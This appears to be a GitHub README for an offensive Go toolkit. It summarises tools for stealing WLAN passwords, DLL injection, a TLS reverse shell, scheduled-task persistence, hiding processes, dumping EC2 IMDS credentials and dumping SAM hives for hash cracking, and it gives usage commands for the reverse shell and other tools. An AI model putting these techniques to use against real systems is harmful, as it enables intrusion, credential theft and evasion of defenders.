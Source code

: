 # Mal(icous)Go

## Disclaimer

Should only be used for systems that you have explicit permission to target, I take no responsibility for actions performed using any code from this repository.

Use at your own risk! 

## wifi pwds

Retrieve WLAN passwords from Windows. Uses native calls in Win32 API rather than executing `netsh wlan ...` as a command, this approach is more stealthy!

## inject

Injects a DLL into a remote process uses the classic on disk / `LoadLibrary` approach so should be used primarily for testing as it is not opsec safe.

Usage:

~~~
inject_x64.exe <dll_path> <pid>
~~~

## rshell

Simple reverse shell implementation client supports comms over TLS using the `tlsserver.go` server code.

### client

_Certificate is embedded into the compiled binary, update to a newly created cert._

~~~
client -tls -port 4444 <host>
~~~

### server

~~~
tlsserver -port 4444 <cert> <key>
~~~

## proxy

Simple TCP proxy

~~~
proxy <port> <host:port>
~~~

## persistence

A PoC to test adding a scheduled task into windows via COM/OLE rather than the noisey approach of using `schtasks.exe`. Please adjust to your needs!

## hideproc

Uses IAT hooking to hook into the low level `NtQuerySystemInformation` function import from `ntdll.dll` and hide processes based on an image name. Also includes a test executable to test against. Simply inject the DLL into the process you want to hide processes from.

Also demonstrates being able to read the PE including the IAT entries in-memory.

Code could be adjusted to perform other tasks.

## imdsdump

Find yourself on an EC2 instance with an assigned role?! This will use the IMDS to retrieve the temporary creds. Useful if the EC2 host is locked down making it tricky to call the service using other methods and also supports working against IMDSv2 that requires a token.

Compiles to an exe however the code could be changed and compiled as a DLL to be used in-memory to be more stealty or when app blocking is in place.

## samdump

Dumps the SAM & SYSTEM registry hives using Win32 API calls to allow offline cracking of the password hashes. More stealthy than using the reg commands or a well known program.

Usage:

~~~
samdump_x64.exe <dir>
~~~
